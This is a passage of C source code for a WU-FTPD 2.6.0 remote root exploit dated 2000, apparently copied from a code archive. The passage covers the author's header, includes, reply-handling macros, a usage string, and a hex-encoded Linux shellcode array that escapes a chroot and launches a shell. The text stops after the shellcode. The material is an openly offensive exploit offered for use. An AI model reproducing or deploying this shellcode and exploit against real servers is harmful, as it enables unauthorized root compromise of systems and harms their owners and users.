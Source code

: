 EXP
---

    /*
     * (c) 2000 venglin / b0f
     * http://b0f.freebsd.lublin.pl
     *
     * WUFTPD 2.6.0 REMOTE ROOT EXPLOIT (22/06/2000, updated: 05/08/2000)
     *
     * Idea and preliminary version of exploit by tf8
     *
     * Greetz: Lam3rZ, TESO, ADM, lcamtuf, karpio.
     * Dedicated to ksm.
     *
     * **PRIVATE**DO*NOT*DISTRIBUTE**
     */

    #include <stdio.h>
    #include <stdlib.h>
    #include <stdarg.h>
    #include <string.h>
    #include <sys/types.h>
    #include <sys/socket.h>
    #include <netinet/in.h>
    #include <netdb.h>
    #include <unistd.h>
    #include <arpa/inet.h>


    #define repln   if (getreply(0) < 0) return -1
    #define replv   if (getreply(1) < 0) return -1

    #ifdef DEBUG
    #define repl replv
    #else
    #define repl repln
    #endif

    char usage[] = "usage: bobek [-l login] [-o port] [-f retofs] [-s retlocofs]\n\t<-t type> <hostname>";
    char recvbuf[BUFSIZ], sendbuf[BUFSIZ];
    FILE *cin, *cout;

    char linuxcode[]= /* Lam3rZ chroot() code */
        "\x31\xc0\x31\xdb\x31\xc9\xb0\x46\xcd\x80\x31\xc0\x31\xdb"
        "\x43\x89\xd9\x41\xb0\x3f\xcd\x80\xeb\x6b\x5e\x31\xc0\x31"
        "\xc9\x8d\x5e\x01\x88\x46\x04\x66\xb9\xff\x01\xb0\x27\xcd"
        "\x80\x31\xc0\x8d\x5e\x01\xb0\x3d\xcd\x80\x31\xc0\x31\xdb"
        "\x8d\x5e\x08\x89\x43\x02\x31\xc9\xfe\xc9\x31\xc0\x8d\x5e"
        "\x08\xb0\x0c\xcd\x80\xfe\xc9\x75\xf3\x31\xc0\x88\x46\x09"
        "\x8d\x5e\x08\xb0\x3d\xcd\x80\xfe\x0e\xb0\x30\xfe\xc8\x88"
        "\x46\x04\x31\xc0\x88\x46\x07\x89\x76\x08\x89\x46\x0c\x89"
        "\xf3\x8d\x4e\x08\x8d\x56\x0c\xb0\x0b\xcd\x80\x31\xc0\x31"
        "\xdb\xb0\x01\xcd\x80\xe8\x90\xff\xff\xff\x30\x62\x69\x6e"
        "\x30\x73\x68\x31\x2e\x2e\x31\x31\x76\x65\x6e\x67\x6c\x69"
        "\x6e\x40\x6b\x6f\x63\x68\x61\x6d\x2e\x6b\x61\x73\x69\x65"
        "\x2e\x63\x6f\x6d";
